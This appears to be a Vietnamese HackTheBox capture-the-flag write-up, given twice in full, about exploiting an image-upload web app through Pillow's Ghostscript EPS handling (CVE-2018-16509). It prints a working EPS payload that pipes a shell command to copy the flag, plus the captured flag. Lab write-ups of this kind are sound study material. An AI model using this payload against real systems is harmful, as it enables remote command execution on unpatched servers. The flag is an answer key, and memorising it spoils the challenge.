


---
tag:
    - htb
---
# petpet rcbee

## Tóm tắt

Bài này tiếp tục là một bài Whitebox.&#x20;

Lỗi đến từ việc sử dụng thư viện có lỗ hổng ở đây là Pillow.

## Walkthrough

Nói sơ qua về Web thì đây là một Web cho phép upload ảnh là tập hợp chúng lại thành một ảnh Gif




Xem qua một chút source thì có duy nhất một API cho phép upload




Lúc đầu mình có dự đoán là lỗ hổng xảy ra do việc upload file nhưng source sử dụng các hàm khá an toàn.&#x20;

```python
ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

generate = lambda x: os.urandom(x).hex()

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def save_tmp(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, secure_filename(file.filename))
    file.save(path)
    return path
```

Vậy cuối cùng phải tìm các hàm khác gây lỗi, và mình tìm được bài sau về [lỗ hổng RCE của Pillow liên quan tới GhostScript](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509). Lỗ hổng ngày bắt nguồn từ việc Pillow sử dụng GhostScript để xử lý các file liên quan tới EPS.&#x20;

```python
# Build Ghostscript command
    command = [
        "gs",
        "-q",  # quiet mode
        "-g%dx%d" % size,  # set output geometry (pixels)
        "-r%fx%f" % res,  # set input DPI (dots per inch)
        "-dBATCH",  # exit after processing
        "-dNOPAUSE",  # don't pause between pages
        "-dSAFER",  # safe mode
        "-sDEVICE=ppmraw",  # ppm driver
        "-sOutputFile=%s" % outfile,  # output file
        # adjust for image origin
        "-c",
        "%d %d translate" % (-bbox[0], -bbox[1]),
        "-f",
        infile,  # input file
        # showpage (see https://bugs.ghostscript.com/show_bug.cgi?id=698272)
        "-c",
        "showpage",
    ]

    ...

    # push data through Ghostscript
    try:
        startupinfo = None
        if sys.platform.startswith("win"):
            startupinfo = subprocess.STARTUPINFO()
            startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
        subprocess.check_call(command, startupinfo=startupinfo)
        im = Image.open(outfile)
        im.load()
    finally:
        ...
```

Và GhostScript tồn lại[ lỗ hổng Command Injection](https://seclists.org/oss-sec/2018/q3/142). Tuy việc Web đã filter extension đầu vào rồi tuy nhiên Pillow tự động xác định filetype của EPS thông quan header ví dụ như `!PS-Adobe-3.0 EPSF-3.0`Do đó, việc upload  và xử lý thông qua Pillow có thể dấn đến Command Injection.

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Và bài viết phía trên cung cấp luôn PoC rồi nên mình sử dụng luôn. Để đơn giản nên mình Exfiltration thông qua folder static luôn. PoC sẽ như sau

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static) currentdevice putdeviceprops
```

Và lấy flag xuống thôi :v

```python
>> curl http://188.166.173.208:30218/static/flag                    
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}% 
```
# petpet rcbee


## Tóm tắt

Bài này tiếp tục là một bài Whitebox.&#x20;

Lỗi đến từ việc sử dụng thư viện có lỗ hổng ở đây là Pillow.

## Walkthrough

Nói sơ qua về Web thì đây là một Web cho phép upload ảnh là tập hợp chúng lại thành một ảnh Gif


Xem qua một chút source thì có duy nhất một API cho phép upload


Lúc đầu mình có dự đoán là lỗ hổng xảy ra do việc upload file nhưng source sử dụng các hàm khá an toàn.&#x20;

```python
ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

generate = lambda x: os.urandom(x).hex()

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def save_tmp(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, secure_filename(file.filename))
    file.save(path)
    return path
```

Vậy cuối cùng phải tìm các hàm khác gây lỗi, và mình tìm được bài sau về [lỗ hổng RCE của Pillow liên quan tới GhostScript](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509). Lỗ hổng ngày bắt nguồn từ việc Pillow sử dụng GhostScript để xử lý các file liên quan tới EPS.&#x20;

```python
# Build Ghostscript command
    command = [
        "gs",
        "-q",  # quiet mode
        "-g%dx%d" % size,  # set output geometry (pixels)
        "-r%fx%f" % res,  # set input DPI (dots per inch)
        "-dBATCH",  # exit after processing
        "-dNOPAUSE",  # don't pause between pages
        "-dSAFER",  # safe mode
        "-sDEVICE=ppmraw",  # ppm driver
        "-sOutputFile=%s" % outfile,  # output file
        # adjust for image origin
        "-c",
        "%d %d translate" % (-bbox[0], -bbox[1]),
        "-f",
        infile,  # input file
        # showpage (see https://bugs.ghostscript.com/show_bug.cgi?id=698272)
        "-c",
        "showpage",
    ]

    ...

    # push data through Ghostscript
    try:
        startupinfo = None
        if sys.platform.startswith("win"):
            startupinfo = subprocess.STARTUPINFO()
            startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
        subprocess.check_call(command, startupinfo=startupinfo)
        im = Image.open(outfile)
        im.load()
    finally:
        ...
```

Và GhostScript tồn lại[ lỗ hổng Command Injection](https://seclists.org/oss-sec/2018/q3/142). Tuy việc Web đã filter extension đầu vào rồi tuy nhiên Pillow tự động xác định filetype của EPS thông quan header ví dụ như `!PS-Adobe-3.0 EPSF-3.0`Do đó, việc upload  và xử lý thông qua Pillow có thể dấn đến Command Injection.

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Và bài viết phía trên cung cấp luôn PoC rồi nên mình sử dụng luôn. Để đơn giản nên mình Exfiltration thông qua folder static luôn. PoC sẽ như sau

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static) currentdevice putdeviceprops
```

Và lấy flag xuống thôi :v

```python
>> curl http://188.166.173.208:30218/static/flag                    
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}% 
```
